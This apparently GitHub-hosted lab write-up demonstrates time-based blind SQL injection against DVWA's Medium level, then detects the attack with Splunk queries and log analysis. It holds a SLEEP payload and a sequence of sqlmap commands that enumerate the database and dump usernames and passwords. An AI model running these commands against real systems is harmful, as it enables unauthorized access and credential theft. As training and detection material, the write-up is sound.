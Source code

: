 ##  Launching an Attack from Another PC in the LAN:

The Medium level uses a form of SQL injection protection with the function mysql_real_escape_string(). However, due to the SQL query not having quotes around the parameter, this does not fully protect the query from being altered. The text box has been replaced with a pre-defined dropdown list and uses POST to submit the form (see source code).

![image](https://github.com/user-attachments/assets/ba981869-abd4-4b40-9554-9be73e9f1330)

 This code tries to protect against SQL injection using `mysqli_real_escape_string()`. This function escapes special characters in the user input.

But there’s a mistake in the SQL query:

```sql
$query = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```
❌ The user input $id is not inside quotes — so attackers can still inject SQL if they use numbers or logical conditions.

so manyone can injecting something like:

```
1 AND SLEEP(5)
```
That becomes:

```sql
SELECT first_name, last_name FROM users WHERE user_id = 1 AND SLEEP(5);
This is a time-based blind SQL injection, and it works even though you escaped the input.
```

Attackers able to intercept and modify POST data using sqlmap tool .

You're targeting:

```
http://<ip>/DVWA/vulnerabilities/sqli_blind/
```

and the form sends a POST request with parameters like:

```
POST /DVWA/vulnerabilities/sqli_blind/ HTTP/1.1
Content-Type: application/x-www-form-urlencoded

id=1&Submit=Submit
```

You want to inject a payload into id that proves SQLi is possible — ideally a time-based blind SQLi.

### Using sqlmap

```
sqlmap -u "http://<ip>/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=YOUR_SESSION_ID" \
--technique=BT \
--level=2 \
--risk=2 \
--batch
```

![image](https://github.com/user-attachments/assets/34b7fb18-ba9c-472b-84ba-e22b468c98c9)

The injection point was confirmed on the id parameter (POST), which is vulnerable to both Boolean-based (id=1 AND 1682=1682) and Time-based (id=1 AND (SELECT SLEEP(5))) blind SQL injection; the backend uses MySQL (MariaDB fork) on Apache 2.4.63 running Debian Linux, and despite being set to Medium security, it is still injectable.

Extract data from dvwa DB:

```
sqlmap -u "http://172.17.128.158/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=9214bb7c3ab25045944f51649562e453" \
--dbs
```

![image](https://github.com/user-attachments/assets/c1c996df-594e-4f5d-8753-bb806893604c)

Found Databases.

Extract Table & User Info:

```
sqlmap -u "http://172.17.128.158/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=9214bb7c3ab25045944f51649562e453" \
-D dvwa --tables
```

![image](https://github.com/user-attachments/assets/519e573b-d747-406e-9edf-c9be196d1315)

Listed tables in dvwa.

```
sqlmap -u "http://172.17.128.158/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=9214bb7c3ab25045944f51649562e453" \
-D dvwa -T users --columns
```

Then list columns in the users table.

![image](https://github.com/user-attachments/assets/b8653499-fa81-467f-b511-9a710403f910)

Then dump usernames and passwords:

```
sqlmap -u "http://172.17.128.158/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=9214bb7c3ab25045944f51649562e453" \
-D dvwa -T users -C user,password --dump
```

![image](https://github.com/user-attachments/assets/782a129f-ae44-472a-a204-306fe512cdcf)
 
The attack was successful


## Next, we will detect the attack using Splunk

```
host=victim sourcetype="access-too_small" "sqlmap"
```

![image](https://github.com/user-attachments/assets/2b415a36-5af7-437b-a435-7986297bd40b)

From this, we can see that the sqlmap user-agent was used to perform the attack.


```
host=victim sourcetype="access-too_small" "sqlmap" id  SLEEP
```

![image](https://github.com/user-attachments/assets/6dbfb250-d3ec-4fc3-97fb-8b25513897e6)


 1. Time-based Blind SQL Injection Detected

The repeated use of PG_SLEEP(5) in payloads shows deliberate attempts to delay SQL responses:

Examples:

```sql
...AND 9814=(SELECT 9814 FROM PG_SLEEP(5))...
...;SELECT PG_SLEEP(5)--...
...SELECT 3841 FROM (SELECT(SLEEP(5)))...
```
This is a signature of time-based blind SQLi, where delays confirm conditional truth.

2. Automated Tool Used: sqlmap
Every log includes this user-agent:
`
"sqlmap/1.9.2#stable (https://sqlmap.org)"
`
This confirms that an attacker is automating the attack using sqlmap.

3. Vulnerable Parameter: id
Payloads are being injected into the URL parameter id=1, e.g.:

`/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit...`

This suggests the id parameter is not properly sanitized and is vulnerable to SQL injection.

5. Encoding Variants in Payloads
The logs show URL-encoded values, e.g.:

%3D → =

%28 → (

%29 → )

These confirm evasion techniques are being used to bypass simple string matching.

## 🧾 Summary Table

| Finding           | Details                                                |
|-------------------|--------------------------------------------------------|
| **Attack Type**   | Time-Based Blind SQL Injection                         |
| **Tool Used**     | sqlmap/1.9.2                                           |
| **Vulnerable Param** | `id`                                                |
| **Injection Method** | `SLEEP(5)`, conditional `SELECT`s, nested subqueries |
| **Encoding Technique** | URL-encoding to hide SQLi characters             |





